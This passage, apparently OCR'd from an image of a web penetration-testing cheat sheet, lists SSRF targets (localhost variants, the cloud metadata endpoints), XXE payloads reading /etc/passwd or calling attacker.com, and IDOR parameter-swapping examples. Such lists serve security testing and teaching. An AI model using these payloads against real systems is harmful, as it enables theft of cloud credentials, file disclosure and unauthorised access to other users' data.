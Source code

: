 ```html
</script>
```

### **Server-Side Request Forgery (SSRF)**
```bash
# Basic SSRF
http://localhost
http://127.0.0.1
http://0.0.0.0
http://[::1]

# Cloud metadata
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/

# Bypass filters
http://127.1
http://127.0.1
http://2130706433 (decimal IP)
```

### **XML External Entity (XXE)**
```xml
<!-- Basic XXE -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>

<!-- Blind XXE -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "http://attacker.com/xxe">
]>
<root>&xxe;</root>
```

---

##  **Phase 5: Configuration & Business Logic**

### **Insecure Direct Object Reference (IDOR)**
```bash
# Test parameter manipulation
/api/users/123 → /api/users/124
/documents/user1/file.pdf → /documents/user2/file.pdf

# UUID/GUID testing
/api/orders/550e8400-e29b-41d4-a716-446655440000
```

